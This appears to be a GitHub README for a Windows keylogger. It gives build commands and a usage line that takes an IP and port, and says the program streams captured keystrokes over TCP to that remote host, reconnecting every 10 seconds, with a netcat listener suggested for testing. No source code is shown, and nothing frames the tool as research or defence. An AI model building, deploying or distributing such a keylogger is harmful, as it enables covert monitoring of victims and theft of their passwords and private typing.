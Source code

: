 # Simple KeyLogger for Windows

## Build
```bash
git clone https://github.com/x0152/KeyLogger
cd KeyLogger
mkdir build
cd build
cmake .. -G "MinGW Makefiles"
make
```

## Usage
```bash
KeyLogger <ip> <port>
```
Program will establish tcp connection to ip on specified port. You can use netcat for testing. (example: nc -l 8030)
If the connection is lost then programm will try reconnect each 10 seconds.

## Exapmple output
<img src = "output.png">
